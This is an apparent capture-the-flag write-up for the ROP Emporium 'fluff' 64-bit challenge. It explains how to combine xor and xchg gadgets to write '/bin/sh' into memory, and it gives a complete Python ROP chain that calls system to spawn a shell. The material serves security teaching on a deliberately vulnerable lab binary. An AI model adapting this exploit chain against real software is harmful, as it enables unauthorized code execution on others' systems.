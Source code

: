 # fluff - 64 bit

the goal of this challange is very similar to the write4 one.(https://github.com/alal4465/CTF_Writeups/tree/master/ROP%20Emporium%5Bwrite4-64bit%5D)   
      
![hathala](https://user-images.githubusercontent.com/60041914/78301733-34105b80-7542-11ea-9c08-939b18552714.png)
      
we need to write a string to memory,    
point rdi at it,    
and call system with the string as a parameter.     

but this time there is no single gadget that allows for arbitrary write.     
looking at the output from ROPgadget (this time using --depth 20 in hope to find some useful gadgets)     
these gadgets seem interesting:    
```
#0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
#0x00000000004008c3 : pop rdi ; ret
#0x000000000040084d : pop rdi ; mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
#0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
```
   
using these gadgets, my plan was:    
1.empty r11("xor r11, r11")      
2.set r12 to write adress    
3.xor r11 with r12 (r11 is zero so it should set it to r12)      
4.xchg r11 with r10 (r10 now points to dest memory)     
5.empty r11      
6.set r11 to str with those same steps      
7.write r11 to [r10]       
     
after taking care of some unwanted parts of these gadgets    
the ROP chain looks like this:
```python
STR_ADDR=0x006010b0
CALL_SYSTEM=0x004005e0
SET_RDI=0x004008c3
WRITE_MEM=0x0040084d
EMPTY_R11=0x00400822
XOR_R11_R12=0x0040082f
SET_R12=0x00400832
XCHG_R11_R10=0x00400840

def write_str(s,addr,exp):
    #write 8 byte string to memory using creative gadgets
    exp+=p64(EMPTY_R11) # empty r11
    exp+=p64(0x41414141) # garbage r14 value
    exp+=p64(SET_R12) 
    exp+=p64(addr) # set r12 to write adress
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage r12 value
    exp+=p64(XCHG_R11_R10) # xchg r11, r10
    exp+=p64(0x41414141) # garbage r15 value
    exp+=p64(EMPTY_R11) # xor r11, r11
    exp+=p64(0x41414141) # garbage r14 val
    exp+=p64(SET_R12)
    exp+=s # set R12 to string
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage
    exp+=p64(WRITE_MEM) # write r11 to [r10] 
    exp+=p64(0x41414141) # garbage rdi val
    exp+=p64(0x41414141) # garbage r13 val
    exp+=p64(0x0) # set r12 to 0 so the xor wont hurt our string
    return exp

exploit=b'A'*40
exploit=write_str(b"/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)

```
      
![ending](https://user-images.githubusercontent.com/60041914/78301739-35418880-7542-11ea-9f3a-8691f7332b5c.png)
     
